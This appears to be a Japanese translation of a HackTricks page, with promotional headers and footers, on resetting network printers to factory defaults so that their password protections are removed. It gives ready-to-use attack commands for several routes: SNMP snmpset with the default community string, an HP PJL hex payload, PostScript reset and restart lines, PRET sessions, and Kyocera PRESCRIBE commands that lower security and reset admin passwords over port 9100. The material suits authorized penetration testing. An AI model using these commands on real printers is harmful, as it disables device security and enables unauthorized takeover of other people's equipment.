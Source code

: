 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) を使ってAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksに広告を掲載したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください。
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、ハッキングのコツを共有する。

</details>


デバイスを工場出荷時のデフォルトに**リセットする**ことは、ユーザー設定のパスワードのような保護メカニズムを**上書きする**ため、セキュリティ上重要な機能です。これは通常、プリンターの**コントロールパネル**上の**特別なキーの組み合わせ**を押すことで行うことができます。このようなコールドリセットは数秒で完了するため、例えば昼休みにコピー室に忍び込むなど、ローカルの攻撃者やペネトレーションテスターにとって現実的なシナリオです。ただし、デバイスへの**物理的アクセス**は**常にオプションではありません**。

### SNMP

Printer-MIBは**prtGeneralReset**オブジェクト（**OID 1.3.6.1.2.1.43.5.1.1.3.1**）を定義しており、攻撃者はSNMPを使用してデバイスを再起動（powerCycleReset(4)）、NVRAM設定をリセット（resetToNVRAM(5)）、または工場出荷時のデフォルトに復元（resetToFactoryDefaults(6)）することができます。この機能/攻撃は**多くのプリンターでサポートされており**、組み込みウェブサーバーのユーザー設定パスワードなどのすべての保護メカニズムを削除します。保護メカニズムを効率的にバイパスできる一方で、このアプローチの実用的な欠点は、**静的IPアドレスの設定が失われる**ことです。**DHCPサービスが利用できない場合**、攻撃者は工場出荷時のデフォルトにリセットした後、デバイスに**再接続することはできません**。

デバイスを工場出荷時のデフォルトに**リセットする**には、以下に示すように`snmpset`コマンドを使用します（**コミュニティストリング**を知っている必要があります。ほとんどの場合、デフォルトは`public`です）：
```bash
snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
```
### [PML](./#pml)/[PJL](./#pjl)

多くのシナリオでは、攻撃者はファイアウォールや不明なSNMPコミュニティ文字列のためにSNMPリクエストを実行する能力がありません。しかし、**HPデバイス**では、**SNMP**をその**PML表現**に変換し、正当な印刷ジョブ内にリクエストを埋め込むことができます。これにより、攻撃者は以下に示すように、通常の印刷ジョブ内でデバイスを**再起動および/またはリセットして工場出荷時のデフォルトに戻す**ことができます：
```bash
@PJL DMCMD ASCIIHEX="040006020501010301040106"
```
誰でもこの攻撃をHPプリンターで再現できます。デバイスの再起動やリセットは、[**PRET**](https://github.com/RUB-NDS/PRET)を使用して簡単に再現できます：
```bash
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PostScript

PostScriptには同様の機能があります：**FactoryDefaults** システムパラメーターは、「**trueに設定され**、**プリンターがオフになる直前**に、次の電源オン時にすべての不揮発性パラメーターが**工場出荷時のデフォルト値**に戻るフラグです」。**PostScript**自体にも環境を**再起動**する機能がありますが、**有効なパスワード**が必要です。\
しかし、PostScriptインタープリターは、[ドキュメント処理](http://hacking-printers.net/wiki/index.php/Document\_processing) DoS攻撃で議論されているように、**無限ループ**に陥ることができ、これによりユーザーはデバイスを**手動で再起動**し、PostScriptのパスワードをリセットする必要があります。

PostScriptシステムパラメーターを工場出荷時のデフォルトにリセットする：
```bash
<< /FactoryDefaults true >> setsystemparams
```
PostScript インタープリタと仮想メモリを再起動します：
```bash
true 0 startjob systemdict /quit get exec
```
誰でもプリンターのPostScriptインタープリタを再起動またはリセットすることが、[**PRET**](https://github.com/RUB-NDS/PRET)を使用して**簡単に再現できます**：
```bash
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PRESCRIBE

**キョセラデバイス**において、**PRESCRIBEページ** 記述言語は以下に示すコマンドのいずれかを使用して、通常の印刷ジョブ内からデバイスを工場出荷時のデフォルトに**リセットする**ために使用することができます：
```bash
!R! KSUS "AUIO", "CUSTOM:Admin Password = 'admin00'";  CMMT "Drop the security level, reset password";
!R! ACNT "REST";                                       CMMT "Reset account code admin password";
!R! EGRE;                                              CMMT "Reset the engine board to factory defaults";
!R! SIOP0,"RESET:0";                                   CMMT "Reset configuration settings";
```
この攻撃を再現するには、プリンターの9100/tcpポートに対して生のネットワーク接続を開き、**上記のコマンドを送信します**。

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
